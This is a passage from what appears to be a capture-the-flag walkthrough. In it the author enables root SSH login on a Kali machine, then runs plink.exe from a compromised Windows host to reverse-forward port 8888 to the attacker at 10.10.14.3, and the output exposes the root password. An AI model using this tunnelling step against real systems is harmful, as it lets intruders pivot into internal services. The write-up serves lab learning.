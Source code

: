 So We can do Port forwarding using Plink.

> [https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)

Before doing we need to do some small changes, We need to PermitRootLogin and restart ssh service.

```bash
root@kali:~# vi /etc/ssh/sshd_config

# Authentication:

#LoginGraceTime 2m
PermitRootLogin yes
#StrictModes yes
#MaxAuthTries 6
#MaxSessions 10

root@kali:~# service ssh restart
root@kali:~# service ssh start
```

Now in the box, upload the plink and now we can remote port forward the port 8888 with this plink tool.

```bash
C:\temp>.\plink.exe root@10.10.14.3 -R 8888:127.0.0.1:8888
.\plink.exe root@10.10.14.3 -R 8888:127.0.01:8888
The server's host key is not cached in the registry. You
have no guarantee that the server is the computer you
think it is.
The server's ssh-ed25519 key fingerprint is:
ssh-ed25519 255 48:34:e6:01:5f:9f:51:07:6c:27:4f:98:82:4c:22:5b
If you trust this host, enter "y" to add the key to
PuTTY's cache and carry on connecting.
If you want to carry on connecting just once, without
adding the key to the cache, enter "n".
If you do not trust this host, press Return to abandon the
connection.
Store key in cache? (y/n) y
Using username "root".
root@10.10.14.3's password: toor

Linux kali 5.7.0-kali1-amd64 #1 SMP Debian 5.7.6-1kali2 (2020-07-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
```

Once its done u will get back to your kali terminal.
